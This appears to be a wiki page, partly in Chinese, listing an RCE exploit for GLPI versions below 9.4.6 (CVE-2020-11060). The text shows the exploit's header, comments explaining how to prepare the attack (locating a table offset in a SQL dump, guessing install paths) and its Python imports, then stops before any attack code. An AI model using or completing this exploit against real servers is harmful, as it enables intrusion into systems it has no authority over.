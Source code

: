 <languages /> <translate>

影響版本
--------

</translate>

    Version: < 9.4.6

EXP
---

    # Exploit Title: GLPI 9.4.5 - Remote Code Execution (RCE)
    # Exploit Author: Brian Peters
    # Vendor Homepage: https://glpi-project.org
    # Software Link: https://github.com/glpi-project/glpi/releases
    # Version: < 9.4.6
    # CVE: CVE-2020-11060

    # Download a SQL dump and find the table offset for "wifinetworks" with
    # cat <sqlfile> | grep "CREATE TABLE" | grep -n wifinetworks
    # Update the offsettable value with this number in the create_dump function
    # The Nix/Win paths are based on defaults. You can use curl -I <url> and use md5sum to find the path based
    # on the Set-Cookie hash.

    #!/usr/bin/python

    import argparse
    import json
    import random
    import re
    import requests
    import string
    import sys
    import time
    from datetime import datetime
    from lxml import html

